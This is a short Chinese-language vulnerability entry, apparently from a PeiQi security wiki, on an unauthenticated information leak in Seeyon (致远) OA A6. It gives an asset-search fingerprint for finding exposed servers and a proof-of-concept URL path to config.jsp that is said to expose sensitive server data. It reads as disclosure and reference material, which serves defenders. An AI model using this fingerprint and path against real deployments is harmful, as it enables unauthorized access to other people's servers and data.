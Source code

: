# 致远OA A6 config.jsp 敏感信息泄漏漏洞

## 漏洞描述

致远OA A6 config.jsp页面可未授权访问，导致敏感信息泄漏漏洞，攻击者通过漏洞可以获取服务器中的敏感信息

## 漏洞影响

<a-checkbox checked>致远OA A6</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="yyoa" && app="致远互联-OA"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1646054177060-6bebaa85-7683-4dd3-8120-39a633481f14.png)

验证POC

```javascript
	/yyoa/ext/trafaxserver/SystemManage/config.jsp
```

![img](/assets/PeiQi-Wiki/img/1646054254418-c88d4b28-ec92-4b79-80a4-7f9d4f1421fb.png)